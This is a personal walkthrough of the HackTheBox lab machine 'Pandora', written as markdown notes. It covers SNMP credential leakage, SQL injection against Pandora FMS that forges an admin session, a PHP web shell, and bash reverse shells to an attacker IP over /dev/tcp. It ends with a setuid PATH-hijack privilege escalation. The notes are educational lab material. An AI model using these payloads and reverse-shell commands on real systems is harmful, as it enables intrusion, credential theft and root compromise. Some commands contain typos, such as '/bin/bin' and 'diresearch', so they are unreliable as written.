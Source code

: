 - 10.10.11.136 leads to panda.htb web page
	- added to /etc/hosts
- nmap shows port 80 http and port 22 ssh
	```bash
nmap 10.10.11.136
nmap -sV -sT 10.10.11.136
```
	- Linux OS
	- Apache Server 2.4.41
- dirsearch finds assets subdirectory
	```bash
diresearch -u http://panda.htb
```
	- Assets shows a directory list with .svg images
		- maybe there is a file upload vulnerability?
			- XXE /XSSVulnerability
			- github link:
				https://github.com/makeplane/plane/security/advisories/GHSA-rcg8-g69v-x23j
				- The application allows users to upload SVG files as profile images without proper sanitization. SVG files can contain embedded JavaScript code that executes when the image is rendered in a browser. This creates an XSS vulnerability where malicious code can be executed in the context of other users' sessions.
				- How to upload file now..
- many loophles, the assets hold images, one of the images talks of plainadmin website. there are svg vulnerabilities. fuzzing and subdomain search is a bit difficult as pages return true always.
--------
- **But the key is to check udp ports for nmap**
	```bash
nmap -sU 10.10.11.136 #slower 
nmap -sU --min-rate=5000 10.10.11.136 #faster
```
## SNMP Enumration
- perform snmpwalk
	```bash
	snmpwalk -v 1 -c public 10.10.11.136
```
	- We find a username and password:
		```bash
iso.3.6.1.2.1.25.4.2.1.5.1101 = STRING: "-u daniel -p HotelBabylon23"
```
	- can ssh into machine as this user **but we cannot access user flag as its for user matt**
## More enumeration
- uname -a gives 
	- Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
- searchsploit pandora gives a bunch of exploits
- i found a ruby exploit but cant seem to transfer the file
- searching /var/www/
	- we find pandora extra folder with pandora console
	- this implies there maybe another virtual host
- search /etc/apache2/sites-available
	- we see in pandora.conf there is a locally hosted site
		- pandora.panda.htb hosted locally on 80
- **New technique**
	- now to get access to this site we need to forward it to our localhost via a port
	- ssh into daniel again but with -L to set a listener port which will forward this localhost to our machine's localhost ip
		```bash
ssh -L 9090:127.0.0.1:80 daniel@panda.htb
```
		- to check pass this command on your local machine to check if ssh is listening
			```bash
ss -lntp | grep "9090"
```
	- add pandora.panda.htb to localhost in /etc/hosts
	- access url via port 9090 to get login screen
----------
## Login Page Enumeration
- Googling the version of Pandora FMS v7.0NG.742_FIX_PERL2020
	- we find RCE exploit
		- https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/
			- sql database in there
			- in line 72 of _chart_generator.php_, the user input is fetched from the `$_REQUEST` superglobal which contains GET and POST parameters, as well as cookie values. The latter is probably the reason why `get_parameter()` was not used here. The user input **`$_REQUEST['session_id']`** is passed to the constructor of the class `PandoraFMS\User` without any sanitization.
			- chart generator is vulnerable
			- /include path : checked url and leads to a directory with chat_generator.php file
		- https://www.exploit-db.com/exploits/50961
- need to capture session id to use for sqlmap
	- since we know we attack the session id of chat_generator.php
		```bash
http://pandora.panda.htb:9090/pandora_console/include/chart_generator.php?session_id=' show datases or 1=1-- -
```
	- we get sql error showing its vulnerable to SQLi
## SQLMAP enumeration
- enumerate with sqli 
	```bash
	```bash
sqlmap -u "http://pandora.panda.htb:9090/pandora_console/include/chart_generator.php?session_id=*" --batch --level=5 --risk=3 -D pandora -T tsessions_php --dump
```
	- FIRST PASSWD --dbs, found a database, then --tables to find tables then --dump a table step by step
	- found matt session_id
		- added the session id to my url
		- went back to pandora.panda.htb:9090 and was logged in
		- however Im not admin so only limited functionality
----
- **ALTERNATE METHOD FOR admin access to page (binary analysis) HARD FIND**
	- checking the table again we see
		- id_usuario|s:6:"daniel"
		- somethign similar for matt
		- the s value represents the characters (daniel is 6 characters)
		- add this to url :
			```bash
http://pandora.panda.htb:9090/pandora_console/include/chart_generator.php?sessionid=' union select 1,2,'id_usuario|s:5:"admin";'-- -
```
	- we get no error message and refreshion pandora.panda.htb:9090 we get admin access
		- we try to upload php code into file manager (shows its in image directory so can url into pandora_console/images to see and execute)
		- Three methods:
			- upload pentest monkeys php reverse shell with creds and listen on port.
			- manually we can create a php code that calls a command line
				```php
<?php
system($_REQUEST['cmd']);
?>
```
				- Upload and open file in images directory
				- pass url to check if working
				```php
http://pandora.panda.htb:9090/pandora_console/images/shell.php?cmd=whoami
```
				- we get response matt
				- open burpsuite and capture this
					- change request type to post
					- pass this command at the bottom (a blank line in between the request and this)
					```bash
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.25/9998 0>&1'
```
					- Select everything from after "cmd=" and press Ctrl+U to url encode and then send the packet while listening on port 9998.
						- we get reverse shell 
-----------
- **Another way to get reverse shell without admin access**
	- php ajax.php vulnerability
		- capture packets via burp suite as matt logs in
	- we find an ajax.php file
		- https://www.coresecurity.com/core-labs/advisories/pandora-fms-community-multiple-vulnerabilities
			- can execute exploit in this post request
				```bash
page=include/ajax/events&perform_event_response=10000000
&**target=bash -c 'bash -i >& /dev/tcp/10.10.14.25/9998 0>&1'&response_id=1
```
		- we also need to url encode it (Ctrl+U in Burp Suite)
			```bash
page=include/ajax/events&perform_event_response=10000000
&target=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.25/9997+0>%261'&response_id=1
```
		- have netcat listener listening on port 9997
			- to gain access at matt user
## Privilege escalation
- on enumerating we do 
	```bash
find / -type f -perm -4000 2>/dev/null
```
	- and we find pandora_backup with root priv
		- yet we cant execute it
		- this is due to a restricted shell
			- why? we tried sudo -l and it gave a weird error:
				```bash
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```
			- 
			- https://gtfobins.github.io/gtfobins/at/#shell
				- can use at to break of of restricted shell
				```bash
# tried but didnt work
```
		- alternatively, create a ssh key in your local machine and send it to target "
			```bash
python -m http.server:8001 # where you have the key
in target matchine /home/matt.ssh: wget 10.10.14.25:8001/matt.pub #get public key to .ssh directory
mv matt.pub authorized_keys
chmod 600 authorized_keys # VERY IMPORTANT
in local machine : chmod 600 matt
ssh -i matt matt@10.10.11.136 # should not get password prompt
```
		- then in shell create tar file and make it executable with /bin/bash as entry(why? if you look at pandora_backup which we want to execute, that is the command which gets use root)
		- create path to current directory
			```bash
echo /bin/bin > tar
chmod +x tar
export PATH=$(pwd):$PATH
echo $PATH # should show current direvtory first now
/usr/bin/pandora_backup
```
		- we gain root access
-------
## The Priv Esc exploit in pandora_backup
- on doing strings or Ghidra we can find the main code of pandora_backup
	```bash
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
```
	- we create atar file with the command /bin/bash into it and make it executable. 
	- Furthermore we check the $PATH as thats what the command path checks when executing. We change this to our current directory 
		```bash
export PATH=$(pwd):$PATH
echo $PATH
```
	- then we execute pandora_backup which calls that command but since there is a tar executable in our current working directory.
	- since this runs as setuid it runs as root so hen /bin/bash is executed in our altered tar executable, it executes the root shell for us.
